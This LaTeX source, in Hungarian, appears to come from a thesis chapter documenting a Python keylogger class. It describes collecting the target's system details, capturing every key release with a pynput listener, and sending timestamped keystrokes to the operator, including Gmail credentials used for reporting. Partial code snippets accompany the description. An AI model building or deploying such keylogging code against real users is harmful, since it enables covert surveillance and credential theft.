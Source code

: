 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\subsection{KeyLoggerTarget osztály}\label{subsubsec:keyloggerclientclass}
Ez az osztály valósítja meg a lenyomott billentyűk kezelését. Kilenc attribútumot tartalmazó osztály: a kapcsolat, gmail cím, gmail jelszó, gmail szolgáltató, gmail port, a lenyomott billentyűt tartalmazó változó, a rendszer temporális könyvtára és a rendszer neve.

Az első adat nem követi a megállapított csomag felépítését. Ez az adat tartalmazza a Target rendszerének információit:
\begin{itemize}
\item system name
\item device name
\item release
\item version
\item architecture
\item cpu info
\item user name
\item ip address
\end{itemize}
Ezek után el lesz indítva egy halgató, amely lehalgatja a számítógéphez csatlakoztatott billentyűzetet, amely akkor írja felül a $keys$ attribútumot, amikor a felhaszáló elengedi a billentyűt.
\begin{lstlisting}{language=Python}
keyboard_listener = Listener(on_release=self.on_release)
keyboard_listener.start()
\end{lstlisting}
Az attribútum felülírásáról az $on\_release$ függveny gondoskodik.
\begin{lstlisting}{language=Python}
def on_release(self, key):
	self.keys = key
\end{lstlisting}

A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.
\end{document}
